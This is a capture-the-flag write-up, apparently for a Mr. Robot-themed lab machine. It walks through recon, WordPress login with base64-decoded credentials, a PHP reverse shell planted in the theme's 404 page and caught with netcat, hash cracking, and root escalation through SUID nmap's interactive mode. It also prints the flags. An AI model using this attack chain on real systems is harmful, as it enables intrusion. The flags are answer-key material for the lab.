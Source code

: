 # Warning: this writeup contains spoilers


+ **Did an nmap scan on the ip for services and open ports**

    `` nmap -sV -sT -sC  http://10.10.71.91 ``
    
+ **Found an http and https server**
    ```
    Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-02 14:10 EET
    Nmap scan report for 10.10.71.91
    Host is up (0.078s latency).
    Not shown: 997 filtered ports
    PORT    STATE  SERVICE  VERSION
    22/tcp  closed ssh
    80/tcp  open   http     Apache httpd
    |_http-server-header: Apache
    |_http-title: Site doesn't have a title (text/html).
    443/tcp open   ssl/http Apache httpd
    |_http-server-header: Apache
    |_http-title: Site doesn't have a title (text/html).
    | ssl-cert: Subject: commonName=www.example.com
    | Not valid before: 2015-09-16T10:45:03
    |_Not valid after:  2025-09-13T10:45:03

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 46.25 seconds

    ```

+ **Let's dirsearch the website**
  
    `` ./dirsearch.py -u http://10.10.71.91/ -e html,php,js``

+ **Checked robots.txt and found something interesting ...**
    ``` 
    User-agent: *
    fsocity.dic
    key-1-of-3.txt
    ```

+ **Let's check those files**
  
    ``http://10.10.71.91/key-1-of-3.txt``
    ```
    073403c8a58a1f80d943455fb30724b9
    ```
    **bingo**

    The other file seems to be some kind of long password list.

+ **After trying more directories that we've found with no succes,we got to license.txt and found this**

    ```
    what you do just pull code from Rapid9 or some s@#% since when did you become a script kitty?
    ```
    It's the first thing we see,but if we scroll down a little...

    ```
    do you want a password or something?
    ZWxsaW90OkVSMjgtMDY1Mgo=
    ```
    seems like we got something,it's obviously base64,so let's decode it

    ```bash 
    notarch@notarch-pc: ~/dirsearch$ echo "ZWxsaW90OkVSMjgtMDY1Mgo=" | base64 -d
    elliot:ER28-0652
    ```

    Looks like we got a username and password

+ **On our dirsearch,something stands out**
    
    ``[14:24:10] 200 -    3KB - /wp-login/``

    we check the page,and we log in with out username and password
    
+ **After some tiring research,I found out the editor in the wordpress site for the webpages and we changed the 404.php to a reverse-php-shell.php and uploaded it**
    
    Then we simply listen to the port we selected:

    ``nc -lvnp 1234``

    and **BOOM**,we got a shell

    ```bash
    notarch@notarch-pc: ~/Downloads$ nc -lvnp 1234
    Connection from 10.10.78.203:52337
    Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
    14:33:24 up 7 min,  0 users,  load average: 0.16, 1.33, 0.90
    USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
    uid=1(daemon) gid=1(daemon) groups=1(daemon)
    /bin/sh: 0: can't access tty; jo bcontrol turned off
    $ 

    ```
  We navigate to ``/home/robot`` and we see 2 files that seem interesting:

    ```
    $ ls -la
    total 16
    drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
    drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
    -r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
    -rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5

    ```

    and we got this: ``cat: key-2-of-3.txt: Permission denied``
    
    and this

    ```
    $ cat password.raw-md5
    robot:c3fcd3d76192e4007dfb496cca67e13b
    ```

    We crack the hash on [crack station.](https://crackstation.net/)
    and we get this <span style="background-color: #1e2227">abcdefghijklmnopqrstuvwxyz</span>

    Unfortunately we don't have a TTY,so we spawn one:``    python -c 'import pty; pty.spawn("/bin/bash")'``

    We change the user
    ```bash
    daemon@linux:/home/robot$ su robot
    su robot
    Password: abcdefghijklmnopqrstuvwxyz

    robot@linux:~$ cat key-2-of-3.txt
    822c73956184f694993bede3eb39f959
    ```


+ **As experience dictates,we list all the files that have the SUID bit set:**

  ``find / -type f \( -perm -4000 -o -perm -2000 \) -exec ls {} \; 2>/dev/null``

  We find something interesting

  ```
    /usr/bin/dotlockfile
    /usr/bin/sudo
    /usr/bin/ssh-agent
    /usr/bin/wall
    /usr/local/bin/nmap
    /usr/lib/openssh/ssh-keysign
    /usr/lib/eject/dmcrypt-get-device
  ```

  nmap shouldn't be here ...

  ```
    $ ls -l /usr/local/bin/nmap
    -rwsr-xr-x 1 root root 504736 Nov 13  2015 /usr/local/bin/nmap
  ```

  After some digging around on how to exploit this,I got to nmap's interactive mode:
  ```
    /usr/local/bin/nmap --interactive
  ```

  ...which leads to a privilege escalation

  ```
    nmap> !sh
    !sh
    # whoami
    whoami
    root
  ```

  **BINGO**

  ```
    # cd /root
    cd /root
    # ls
    ls
    firstboot_done  key-3-of-3.txt
    # cat key-3-of-3.txt
    cat key-3-of-3.txt
    04787ddef27c3dee1ee161b21670b4e4
  ```